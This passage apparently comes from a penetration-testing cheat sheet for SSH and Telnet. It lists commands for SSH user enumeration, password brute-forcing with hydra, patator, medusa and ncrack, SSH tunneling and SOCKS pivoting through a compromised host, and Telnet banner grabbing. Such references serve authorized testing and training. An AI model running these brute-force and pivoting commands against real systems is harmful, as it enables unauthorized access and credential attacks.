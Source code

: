 ```bash
python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt $IP 2>/dev/null | grep "is a"
```
```bash
# Bruteforce methods:

hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111

patator ssh_login host=$IP port=22 user=root 0=your_file.txt password=FILE0 -x ignore:mesg='Authentication failed.'

medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh

ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111
```
```bash
# Tunneling
sudo ssh -L <local_port>:<remote_host>:<remote_port> -N -f <username>@<ip_compromised>

# Accessing remote host port locally
ssh -nNT -L <LPORT>:<LOCAL_ADDR>:<RPORT> <username>@<ip_compromised>

# Forwarding local port to remote host
ssh -nNT -R <RPORT>:<REMOTE_ADR>:<LPORT> <username>@<ip_compromised>

# SSH Pivoting
sudo ssh -D 127.0.0.1:1010 -p 22 user@pivot-target-ip # dynamic SOCKSv5 proxy
# Add socks5 127.0.0.1 1010 in /etc/proxychains.conf
# Disable socks4 (used for metasploit)
# Enable socks5 (used for SSH) and set port as appropriate

# Prefix commands with "proxychains", e.g 
proxychains curl -k https://10.10.10.60

```
References / Other Resources:
* https://github.com/six2dez/ssh_enum_script

* https://www.exploit-db.com/exploits/45233


### Port 23 - Telnet
```bash
# Banner Grabbing
nc -nv $IP 23

# nmap
nmap -nv -sV -Pn --script "*telnet* and safe" -p 23 $IP

# Access directly with telnet
telnet $IP 
```
